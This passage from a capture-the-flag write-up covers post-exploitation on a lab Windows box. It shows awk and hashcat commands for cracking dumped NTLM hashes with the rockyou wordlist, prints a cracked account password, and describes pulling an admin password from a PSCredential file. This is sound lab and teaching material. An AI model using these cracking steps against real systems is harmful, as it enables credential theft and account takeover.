 This returns a couple of hashes and writes them to stdout, copy and save these hashes into a file. The format of a single line is `username:userid:lanmanhash:ntlmhash`, we only need the username and ntlmhash. So let's clean up this file and make sure we have the right format.

```sh
$ cat hashes| awk -F: '{print $1":"$4}' > hashes_clean
```

Now we have the hashes for all users on the box, let's see if we can get them cracked:

```sh
$ hashcat -m 1000 ./hashes_clean ./rockyou.txt --user

```

When this command finished and managed to run successfully, we can use the following to show which passwords got cracked. The cracked passwords will get appended to the end of each line.

```sh
$ hashcat -m 1000 ./hashes_clean ./rockyou.txt --user --show

Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
DefaultAccount:31d6cfe0d16ae931b73c59d7e0c089c0:
app:e3cb0651718ee9b4faffe19a51faff95:mesh5143
```

And once again we find that the password for the app account is `mesh5143`. We didn't manage to crack the `Administrator` account, to get access to this account we'll need to login via the portal as we did before. In the `app` home folder you will find a file named `iot-admin.xml`, this is another PSCredential that contains the admin password. To grab the flags we'll need to go through the same steps as before by logging into the portal and using PowerShell to grab the flag from the PSCredential file.

And that's it, we owned the box!
